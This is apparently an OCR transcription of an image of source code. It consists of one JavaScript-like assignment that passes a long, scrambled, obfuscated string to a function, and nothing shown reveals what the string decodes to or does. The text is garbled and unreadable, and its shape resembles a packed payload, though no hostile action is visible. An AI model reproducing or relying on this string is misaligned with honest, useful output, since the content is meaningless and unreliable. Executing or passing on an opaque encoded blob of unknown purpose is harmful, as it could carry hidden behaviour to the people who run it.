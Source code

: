 r=y(e,"u.mIh8s-t?Dye2URU=?h2Umt-Ie8Bs8L?DIm?2?t.h-.y?JR8IDc-ReR.m8eDsIh?RUDmRt2eUmkR-hUtD2h.U2D.-seymR.I2t?2.mh-.yRzy8mtR-8eh{t8m?eIt?8U-IItmy2DIR.IstzeDt-eUX?s?DDt?2*.DshDURthm28.sm.-myhRUht2-mR-s?C!ts8yyR2UIIt-seMYDyIpD8-D.U-IytLDUb88EDhU-e2m.sWDDRht-RsItIey?mh8yy.R-hstIs2yyK*hD?hhmt22hI.s28.DeUhmU-tvy-De?.hhy8hehm?t826eshm?RR-IU-?2?.DR-hhtD2h.UyR.Is8yD?.UImhsUyt88e9R-8m?2DmmD-2yI?2R.I4-Deh8IDyRmbetDRmmy--eI.Ds8I2tD2%.Dsh.y8?ysRh2?misDyhRUht?mmDss-.eeXhhU?tm??.UDfs-RemB.8e?yUyIh8tyy.m8mDhU-IU.-ssDDRhIU2UIytR2y..ssh8?m2tmmsemhs.y-R?2Rme-myefs?2Ryh2?e-?eyVe8sDKmy?tUm.y-Ue8HD88Det82-.tsmDeIUD?UUI?IUys.Is?Dy?.U8mhsUythUyyR?h.?sehmDs?eyg.8tI.t.eh^U8t9?8.DDU-mRtm2hD?L8Iets2Lsme2mm8Dy.whmst.2emt8.D2RUh.t?UhmI-Iye??Usme-seq-Uy8..8IIItIes.68DU-82DsR3I.-?2hDy/mIUtt2m8ReU..seD8R.het-2UR-shDUR?hmm?--ye^s8+UU8ID_UyI.v28UDKUDIh28m?-Uetwt8.DtUyeRm8smDeRstsReI2tI2s.ssRss2Ihmt?2.mITI8m?sU4mDy-m2-8yhR28DI.tmehlU8t:ts.DhUIIU-2e2.sRIIets2x.Ds8ymRthmteh.t?e2.RRRhR?m2emsUm.R-8eIW.8h?.--eIED8h?U8s?-RIe-.D8DDhUUtyUIhm-yDs.?saDmU2hh.2sRy*RDhheRh2?s2y2s8HysR88-m?-Dye^s8MUsh2?8UvIs-8ehl-UyIR-Uet.mDhnRsh?eRIhsIty8.8-6D8ty2R.UstymhhDRphIe?IUs2t8mD2>t8hmy-?yU<t8mU88I?.U.m?+R8yDmUeIse2myte8RysRmIetsItt?2I.?s8D-g<I-t2eRmtssy-Rs22my-#yDbhDm+.8s?t2ye..h8h?UUt-IUfmDsIyR3-smD.R.ID.--eDDRhIURDIh?he-mIs2D?zmh.tsDsU8mR-yeh.x8?DsRhItt.eU.tshy.RsI2t2D.UUIh-UetsXy2.I88IytReU.tsm.I8yyh2>h?teeymss8y8RU22mhsUyt(mhe?s.?sD-8e-qt8m?em-?h2U.t-2yRw?8t?yt.2..h8UDt8tDyRtI8-ye-.sRyhmte2smksDyhRUht?IUhms-lyDh2yeTy8st2UhmIsR8-?UUtIm-ees.HhDUIURh-tmee.s2mkysmDmR-IRs=ey.e8yy22?h.t82-y?x)hD?h2Umt-mI8hs8.DhUhmU-tmU-yy-Xh82DtR:I.tWeID-R8IDtheUtteI.8styIty2e.UstymIRD-RehstseR.ys2h2DTU!mD-hm8s2es..8sDs2yI)tIy2DIRIIstEeDsmeI.es?DyRtIy.ys?DURthmBGI-tm2s.?RR8s?m2emsyUm?-ty-RU8yhey-m?-eyt.<8-Dm-22h.W8DDhIUDhUIh8-y2mRe8?DyR-htt82h.-Ry8DtU2tmmDU.-sIy8Ry8+?-U-mDsDDh}eh8?eUyIms2etK88t?-R-e?mm8eDsRwttRIUU8eeI.R8Us=e2hIt22h.ssyy2RU2ymtsUytkm?m4mh.?.-8etnt8m?eItD8Ut.--IeD.t88??U8ey.y8UDtRmtyRshhtI2I.esyhID82sm9sD;.s2y-gXmRty2I.?8-em>Dhy?D22II8my2Smhe?-UDk-theU.sURhhtmee.sy- y82ymeUh.tUD?.tsIyoRm2?m-seysCVy_7Th2?-UhyUTs8.D8UhmU-tzI-8et,h8eDIUU:?t-eUz-R.hHtheU.t2sm8ssD8R?ID.RseymRehsRUIR?eUmy?lehe?sU{-.2?Im8yy-VU8e??22m?5Rs.DmUeIsesIe-8ey;2s?DyRtIy.ysyDURthmRIIy?h22.?seyU?m22m?-QyDbh?yg.8_m2t-e6ZD8h2Rhe?se?mR-UeI..8-ymU-xUty2h.UsIDet?U2.essyis.D?Omm.?8DUm8sheIU.h2?U2-mUh?emRRh8Dm22mshUeRU-hyD.UIe?mk8eDsR_-eR?hmte2..D.s?mURh-tUe?m?sDh-?s2DmhsUm.-mD2RR8m?2-8eUbt8m?eIyDI2RIs8-es.ms.DD2ImRts2h..88D.t-2-.DshDU8-D.R8hhtheRmeRR8U?m2ems2I.y-cy.P2hUt2UDm88_y2.Kh2-sU8It-8y2.t8-D-R=eR.ssgDDRhIUtt1I8es-yDRDhhtUmRtI2tmmm#t2RehIty22y2je8z?DUhDz2?I?-Iyy.hUyIR-Uet.meDYys-?2U-IDt-28m.stD8tyUh.UstymhhyyR2Iy?m22m.ss?Up8hR?Ueh.R-Des?2UDIp-Deh8sy2*I8#I-tseD.h8U.ts-DDURhItms8yIRthmteh?tt2?mI-mh?Dm2ems-Kit-IsUUm8-??UsUkh2eIx28h?sUyI2-U8yDRUUIttmp2-DehUUssD2RtIsty22.URyhUtU2tmmyDm8mV?eR8h8teU.mt-m8.DIUhmU-tH8-hy-.mhy?-Rmm2th8RDsRlIDtheU2tyhUeR-hDtD2h.UeU.Istym;mIR?.22mes-h2?RUdmD-h7s-.y?3h8m??U.metm8?y.UeIstx.m-22mHDs.yhDs.8?m2hCRssDsR.htm.-kyhRUht2h8.?DUhm?-mhRDmUmme-sII-8y2Smhe?sU,mD-hyUD8.8IttmeesDet.Is-8UUUIyttey2X-.D8L.Rt?m2Um8-hDRR-8mt22s2e-2y?OUhehUe8I.-yehRIhR?-?U.Uh882y2R3IDth.8-22sR?8RDURRhttI2yRIsmyDR8he-.2-.e-ny8R2ht?U-8e-Vt8m?em-??U-UhsXy?.i8I?yt.2t.h8UDths?2R.I8s+e8.DshtsU2hIt.2..?RR8y?m2emsyUm?mhDI6ehy?t2RIh-Iy?..4t-s22II-.e./?URhmtmee.syI.IsJDIRshsIeD-.?s-h8?-2tmmse{hs8e^R?8E?8U.mUsy8.DsUhmU-tVI-8etzh8eDIUUUt8I2..t8.Iy?.eU.tsmR.h?? DD.et-eR.DstDRR-hm?tsRyRJmhe?sh-tRUtmys2eo.mU-ID-DehMUy-,.8D?-U2mR--yR.h8UI2?I2C.DshHG82yrR Iy?my2mtsIytSmh.tD-.emMhhU?th??.UDN8t7y?*e8eIIeges.F8DbesmDeRmIR8TtR2?ss?RRRP&tIeRmhsmy?RSh2?82.mtsIy?Mm8mt2U1I{IhyIY?8.82eIRt-DeD.mhysIRmm2t82r2882?yU2Ieh-DR.ys8DUe2I8?myym.-.ytRIIR8m2Dm2sIh2DoU%mD-h.8--ehlthD8aeUm2-yy2D8UeIst#eD.h8U2sImIRts2}.DshDURt8see2-mysDyhRU?2xkht?82Im8mh?t42hR?e--e-%D8h?UmyD.UUmy8-eR>2URIUtmee.symGysmDmR-IR.2-Iy)RDhhU2hUtIUL)shh?-LDh???e8ms-U8I?DUhmU-tem-e22UCU2Ih-Uet.m8eDsRA-Dt82s.tsmDeIRDUU2hstIe?m8s.h-?-2DmhsU.Rs-e5RRhU?WUIyR.m8m?eUs-22ymR-IDR,y8D?DURh..8s-DtRmIe2hIRIDy-.UsDD-U2IDm.-.yhRUhtUmhtt-U?.R-se.??UDme-se>82e?dxIe?yRbIm-88yDeUUIttm;2-Re2eDhh?RRDhs.2-hyoRDhh2eh-hmym.-seysyhmmt?2R.2s2y8?yUtmU-tem-Iy-J2hRI8?set.m8e.t8mymU8h.tye-mE8RDheh=Ih2??UDII-ye?ry8sD-R(It-U??-DeIL28-D.Uy88m8I.-eehPU8tv.III-tyeD.h8URt8U?2RRI8teD8.m8eD-R/2-I.sDyhRU?DR-he?m2?.2s8emR2hs-RUDmR-ey8<8h2IItIes.M8DUesmDeRm.I-y2hDyRDIUtt2mse2m..-ID?B(2?m-seysv}y.R?8mtR28y2.88(?DUh-822Is8.eeP88tDtesm?tVe).m88Det828.tsmDehID.R8I?-me?.h2hh??Z2Dmh--yt;mhe?-U,mD-h26.m8m?eUs-t-Deh5UsDyIUeIstThy.h8UDt.t8Its2=.DsDDUR?hmR?2smh22yhRUht?t2em--4yDhIhU?tUmm2-sepgDss88UtIm-eL..{8DDh<>h8tIe2.sUeDDRhIUDtU8.es-y_Ryhhm/2tIh-yys/IhDkU2Umt-myeZe8q?yUhI.-tem4e8sDRUDIh-Uet.m8UDsRvhItheU.tsIDeRthwDDR?.Us?ymRehs.s2Dmh-myt38he?sUFm2-hUU.s8m?RUs8U-DI<>UttD?UeI?tg8I.ht4Dtmm-?t-2I.DtDDU68hmteUIm9syyh/.ht?h2ehstDyDBshU??Umem-seG.s8hDmUtIh-ees.bsey.UUI2tmUp.ssSDDcsh?tt2t.eRIy&RDhhtUU?mm-!ys:shD?82Umt82yeYt8d?UUhI9-tUmsh8sDIUDI8-U.e.m8eeIRzIRtheU.tsIDeRs88tD2D.UstymRUhse3UUmh-hytm2heesU%8D?^yU9U8m2RUsst-D2hmm8tD-UeD.tF26.h8UyDRmIRts28.Ds8DUADh?te2?m}RsyhRUhtymmIm--IyDJ-hUU-UmIU-Re%fR8hUhUtIm-eesm=8DD-UUI2tmeU.st>ytRhh.tt28.e2UyJ.D8ttU2ymmsRys.yhD?sItmt--yeh28q?DUhmU?2eIJR8sD8UDI8-Uett28eD?RSIDtheU.t-h?hRshhtDmy.Ustym0UsI?q2Rmhwmyt_mhe?sU8mD-DyUk?8m?eUsIQ?8eh.I8tDtUeIstFeD.U8UDeRmIets2s.DstemRthmte.hmKsyyh.kRR?mU8msy2yDOhhU?th8metYe{.m8h?UUtIm?hes.?8DDsUUIDtmRmm2sryIRh-Itt2I.eDsyZRUy-tU2tmmD.ys5.hD?t8.mt-myehh83?yUhh!mRem.88sR2UDIh-UethJ82yoRohmtheU.t-hehRshytD2t.UstymRe8e?rUImh-?ytLhhe?eUUmD-2yUhs8m?2UsI -Dett.8tDmUe-htJey.h-UysRmh8ts2t.DstDU.t8#teUrm&-myhmRht?mDRms-IyD72hUDmUmIm?eevVU8he2UtII-eet.)8U.-UUIttmRy.ss.DDVsR8tt2s.eRmypRDhhDUm-mm-QysYhhDUI2UIDmUyeie8:mmUhmU-tem.U8sDhUDID-UeD.m-eyhRZIUth2m.t-?DeRs-hty2?.Us2ymRehsDm?.mh-hytmRhe?sU(IehsyUnR8mmtUsIo-D2s.U8tDDUeD2tAeD.h-c8RRmh8tsmU.DshDURUs.teUXmryIyhRRht?h2ems-syy hhU?eUmme-sen.i88?UUtI--ees.l8DUhURh.tm2s.ss(DDRhpUtt2t.essy